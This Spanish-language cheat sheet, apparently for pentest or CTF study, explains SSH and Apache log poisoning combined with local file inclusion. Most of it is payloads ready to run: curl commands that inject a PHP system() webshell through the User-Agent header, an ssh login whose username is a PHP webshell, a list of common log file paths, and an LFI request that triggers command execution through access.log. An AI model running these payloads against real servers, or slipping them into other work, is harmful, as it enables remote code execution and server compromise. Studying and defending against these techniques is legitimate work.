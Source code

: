 ```yaml
---

### 📝 **Log Poisoning Cheat Sheet**

---
```

---

### **Tipos de Log Poisoning**

#### **1. SSH Log Poisoning**
- El atacante inyecta código PHP en el **campo de usuario** durante el proceso de autenticación SSH.
- El código malicioso queda registrado en el archivo **`auth.log`** o **`btmp`**.
- Se ejecuta cuando el archivo de registro es leído desde el servidor.

#### **2. Apache Log Poisoning**
- El atacante inyecta código PHP en el **campo User-Agent** de una solicitud HTTP.
- El código se almacena en el archivo **`access.log`** de Apache.
- La ejecución se produce cuando el archivo de log es leído a través de una vulnerabilidad LFI.

---

### **Archivos de Logs Comunes**
| Sistema Operativo | Archivo de Log                   | Descripción            |
| ---------------- | -------------------------------- | ----------------------- |
| Debian/Ubuntu     | `/var/log/apache2/access.log`      | Logs de Apache          |
| Debian/Ubuntu     | `/var/log/auth.log`                | Logs de autenticación SSH|
| Red Hat/CentOS    | `/var/log/httpd/access.log`        | Logs de Apache          |
| Red Hat/CentOS    | `/var/log/btmp`                    | Logs de autenticación SSH|

---

### **IMPORTANTE**
- **Precaución al escribir comandos:**  
  Si los comandos están mal formateados o las comillas están incorrectas, se puede **contaminar el log** y hacer que el código malicioso no sea interpretado.  

---

### **Payloads Comunes**

#### **1. Inyección de código PHP en Apache (User-Agent)**
```bash
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

---

#### **2. Inyección de código PHP en SSH (Nombre de usuario)**
```bash
ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2
```

---

### **Ejecutando el Código Malicioso**
Una vez inyectado el payload, realiza la llamada a través de la vulnerabilidad LFI:  
```bash
localhost/?filename=/var/log/apache2/access.log&cmd=id
```
- Aquí el archivo de log (`access.log`) es leído por la aplicación, lo que desencadena la ejecución del código PHP.

---

**Consejo:**  
Si el log queda contaminado, se recomienda borrar el archivo y reiniciar el servicio para restaurar la integridad del sistema.  

---
